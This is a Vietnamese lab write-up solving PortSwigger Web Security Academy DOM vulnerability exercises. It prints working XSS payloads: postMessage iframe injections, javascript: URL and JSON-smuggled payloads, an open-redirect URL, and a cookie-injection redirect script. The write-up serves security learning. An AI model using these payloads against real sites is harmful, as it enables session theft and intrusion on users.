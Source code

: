 # 1. DOM XSS using web messages
Nhận thấy trong source code có đoạn mã sau:

![image](https://user-images.githubusercontent.com/103978452/211499636-60830aeb-fd4d-4bcd-bae7-fbaf3f1a149a.png)
Đoạn code trên sẽ nhận web message và inject vào tag có id là 'ads'. Như vậy ta có thể cấu hình XSS sử dụng thẻ `<iframe>`

Vào exploit server, cấu hình đoạn code sau:

```
<iframe style="width: 500px; height: 500px;" src="https://0a1e00080340c863c0b7a49200dd0016.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"></iframe>
```

Sau khi đoạn code trên được chạy, sẽ tạo 1 tag iframe. Tag iframe này sau đó sẽ gửi message đến target website, với nội dung `<img src=1 onerror=print()>`. Sau khi được inject vào thẻ có id=ads, lệnh print() sẽ được gọi.

Click "Deliver to victim", kết quả thành công.

# 2. DOM XSS using web messages and a JavaScript URL
Nhận thấy trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211507542-82ddefb4-5d22-42c8-abc7-f3769e961b4e.png)
Đoạn script trên sẽ bắt sự kiện message được gửi đến, kiểm tra xem trong data(url) nếu có chuỗi 'http:' hoặc 'https:' trong message content thì sẽ thiết lập `location.href=url`

Vào exploit, cấu hình đoạn code sau:
```
<iframe src="https://0a6100cd040bb11ec08677ae0042000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print(%22https:%22)', '*')"></iframe>
```

Đoạn code trên tạo một iframe, gửi message `javascript:print(%22https:%22)` tới target website. Như vậy khi target website bắt event 'message', lệnh `print('https')` sẽ được gọi

Sau khi click "Deliver to victim", bài lab được giải.

# 3. DOM XSS using web messages and JSON.parse
Trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211520513-92a0e9b0-3957-4279-be03-e3ee389d4364.png)
Nhận thấy dữ liệu hợp lệ cho "message" event là một JSON object. Nếu ta truyền một object có `type=load-channel` thì thuộc tính `url` của object đó sẽ được gắn cho một thẻ `iframe` mới.

Vào exploit server và cấu hình đoạn HTML sau:

```
<iframe src="https://0a7a00e903689c12c25c61e7002a00c8.web-security-academy.net/" onload="this.contentWindow.postMessage('{&quot;type&quot;:&quot;load-channel&quot;, &quot;url&quot;:&quot;javascript:print()&quot;}', '*')"></iframe>
```
Đoạn code trên sẽ gửi một message với content `{"type": "load-channel", "url": "javascript:print()"}`. Như vậy, khi thẻ `<iframe src="javascript:print()">` được tạo, lệnh print() sẽ được gọi.

Sau khi click "Deliver to victim", kết quả thành công.

# 4. DOM-based open redirection
Trong source code có đoạn thẻ `<a>` với sự kiện onclick như bên dưới:

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
Đoạn code trên sẽ redirect user tới giá trị của tham số `url`. Như vậy, ta có thể khiến user redirect đến exploit server bằng cách thiết lập URL sau:

```
https://0ad800f0032df10ac4cb4d1300dd004e.web-security-academy.net/post?postId=5&url=https://exploit-0a470076034cf181c4014c9201e80056.exploit-server.net/exploit
```

Nếu user click "Black to blog" thì website sẽ tự động chuyển hướng đến exploit server.

# 5. DOM-based cookie manipulation
Trong source code của `GET /product` có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211686424-cddbdabd-fafe-48f9-9fe0-b4125f062cb7.png)
Như vậy mỗi khi truy cập đến một product, biến window.location sẽ được đặt làm giá trị của cookie lastViewedProduct. 

Thử thay đổi cookie lastViewedProduct thành `'><script>alert(1)</script>`, ta thấy lệnh `alert(1)` được execute. Như vậy website có lỗ hổng XSS, ta có thể đóng attribute href của thẻ `<a>` và inject thẻ `<script>`.

Vào exploit server, cấu hình đoạn code sau:

```
<script>
document.location='https://0a01001f03664060c1505dad001d00ec.web-security-academy.net/product?productId=3&data=%27%3E%3Cscript%3Eprint()%3C/script%3E'
</script>
```

Đoạn code trên sẽ redirect victim tới trang product chứa lỗ hổng XSS, với payload được chèn vào là thẻ script gọi lệnh `print()`. Như vậy khi victim refresh lại trang hoặc truy cập một product khác, lệnh `print()` sẽ được gọi.

Sau khi click "Deliver exploit to victim", bài lab được giải thành công.

# 6. Exploiting DOM clobbering to enable XSS

# 7. Clobbering DOM attributes to bypass HTML filters


